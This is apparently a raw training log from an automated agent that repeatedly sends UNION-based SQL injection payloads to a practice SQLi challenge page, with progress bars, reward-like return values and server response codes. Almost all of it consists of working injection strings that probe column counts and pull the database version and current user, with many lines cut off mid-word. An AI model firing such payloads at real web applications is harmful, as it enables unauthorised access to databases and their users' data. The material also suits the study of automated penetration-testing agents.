https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Qu

  0%|          | 1253/1000000 [7:55:06<12794:24:27, 46.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1254/1000000 [7:55:07<9044:02:00, 32.60s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1255/1000000 [7:55:08<6393:37:21, 23.05s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server res

  0%|          | 1256/1000000 [7:55:59<8758:35:44, 31.57s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1257/1000000 [7:56:00<6222:30:41, 22.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?i

  0%|          | 1258/1000000 [7:59:34<22115:53:10, 79.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differe

  0%|          | 1259/1000000 [8:00:23<19629:03:28, 70.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 un

  0%|          | 1260/1000000 [8:00:32<14482:50:42, 52.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax err

  0%|          | 1261/1000000 [8:01:14<13576:53:14, 48.94s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1262/1000000 [8:01:15<9586:07:22, 34.55s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server respon

  0%|          | 1263/1000000 [8:01:37<8560:07:47, 30.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1264/1000000 [8:01:39<6158:14:29, 22.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1265/1000000 [8:01:40<4391:42:31, 15.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1266/1000000 [8:01:41<3168:17:40, 11.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1267/1000000 [8:01:42<2284:35:04,  8.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1268/1000000 [8:01:43<1661:09:59,  5.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1269/1000000 [8:01:44<1323:07:18,  4.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1270/1000000 [8:01:45<990:22:11,  3.57s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1271/1000000 [8:01:46<770:33:30,  2.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1272/1000000 [8:01:47<614:39:34,  2.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1273/1000000 [8:01:52<813:13:20,  2.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1274/1000000 [8:01:52<630:54:21,  2.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1275/1000000 [8:01:54<592:14:28,  2.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1276/1000000 [8:01:55<520:46:03,  1.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union sel

  0%|          | 1277/1000000 [8:03:12<6747:32:10, 24.32s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1278/1000000 [8:03:13<4800:30:58, 17.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select vers

  0%|          | 1279/1000000 [8:05:30<14744:06:13, 53.15s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1280/1000000 [8:05:32<10464:52:22, 37.72s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1281/1000000 [8:05:33<7402:46:20, 26.68s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.p

  0%|          | 1282/1000000 [8:06:08<8123:17:06, 29.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1283/1000000 [8:06:09<5768:03:56, 20.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1284/1000000 [8:06:10<4115:52:20, 14.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1285/1000000 [8:06:11<2957:10:11, 10.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1286/1000000 [8:06:12<2138:32:52,  7.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3


  0%|          | 1287/1000000 [8:06:53<4949:35:42, 17.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1288/1000000 [8:06:54<3525:34:16, 12.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1289/1000000 [8:06:55<2560:10:22,  9.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1290/1000000 [8:06:56<1894:00:52,  6.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1291/1000000 [8:06:57<1422:58:16,  5.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1292/1000000 [8:06:58<1030:58:14,  3.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),

  0%|          | 1293/1000000 [8:07:33<3676:29:45, 13.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1294/1000000 [8:07:34<2635:49:53,  9.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'uni

  0%|          | 1295/1000000 [8:12:36<27008:50:01, 97.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1296/1000000 [8:12:38<19082:15:43, 68.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query 

  0%|          | 1297/1000000 [8:15:10<25972:59:03, 93.62s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select

  0%|          | 1298/1000000 [8:15:17<18744:23:31, 67.57s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1299/1000000 [8:15:18<13195:57:19, 47.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1300/1000000 [8:15:18<9299:00:10, 33.52s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1301/1000000 [8:15:20<6661:13:43, 24.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error

  0%|          | 1302/1000000 [8:15:42<6494:50:47, 23.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1303/1000000 [8:15:43<4630:11:19, 16.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1304/1000000 [8:15:45<3351:04:08, 12.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1305/1000000 [8:15:46<2429:15:04,  8.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' 

  0%|          | 1306/1000000 [8:16:20<4574:56:44, 16.49s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1307/1000000 [8:16:23<3462:52:45, 12.48s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1308/1000000 [8:16:24<2462:26:54,  8.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server res

  0%|          | 1309/1000000 [8:17:48<8713:13:25, 31.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1310/1000000 [8:17:49<6175:22:36, 22.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'un

  0%|          | 1311/1000000 [8:19:54<14721:35:06, 53.07s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1312/1000000 [8:19:54<10368:10:07, 37.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union selec

  0%|          | 1313/1000000 [8:20:24<9709:58:31, 35.00s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
